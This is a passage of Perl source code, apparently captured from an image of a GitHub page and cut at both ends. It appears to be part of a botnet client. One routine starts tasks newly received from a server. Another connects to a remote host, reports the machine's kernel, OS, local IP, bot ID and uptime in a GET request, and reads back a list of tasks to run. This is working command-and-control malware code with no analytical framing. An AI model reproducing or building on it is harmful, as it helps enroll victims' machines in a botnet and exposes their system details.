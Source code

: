 	foreach my $newLine (@newTaskList){
		#print "newLine = $newLine\n";
		$found = 0;
		foreach my $oldLine (keys %tasks) {
			if ($oldLine eq $newLine){ $found = 1; last; }
		}
		if (!$found) {
			startNewTask($newLine);
		}
	}
}

sub connectToServer {
	my $host = $_[0];
	my $port = $_[1];
	my $path = $_[2];

	print ("ConnectTo $host, $port.\n");

	socket(SOCK, PF_INET, SOCK_STREAM, getprotobyname('tcp')) or return -1;
	$iaddr = inet_aton($host);
	if (defined $iaddr){
		$paddr = sockaddr_in($port, $iaddr);
		connect(SOCK, $paddr) or return -1;
	}
	else {
		return -1;
	}

	print ("Connected to server.\n");

	my $uptime = replaceSpaces(getUptime());
	my $linuxKernel = replaceSpaces($kernel);

	$path .= "?version=$version&kernel=$linuxKernel&os=".$^O."&ip=$localip&id=$botid&up=".$uptime;
	print "path = $path\n";

	my $request = "GET ".$path." HTTP/1.0\nHost: ".$host."\n\n";
	send (SOCK, $request, 0);
	@response = <SOCK>;
	my $headerEnd = 0;
	@newTaskList = ();    # TODO: check memory leaks
	foreach $line (@response){
		if ("\r\n" eq $line) {
			$headerEnd = 1;
			next;
		}
		if ($headerEnd){
			chomp $line;
			print "response = ".$line."\n";
			push(@newTaskList, $line);
		}
	}
	close(SOCK);
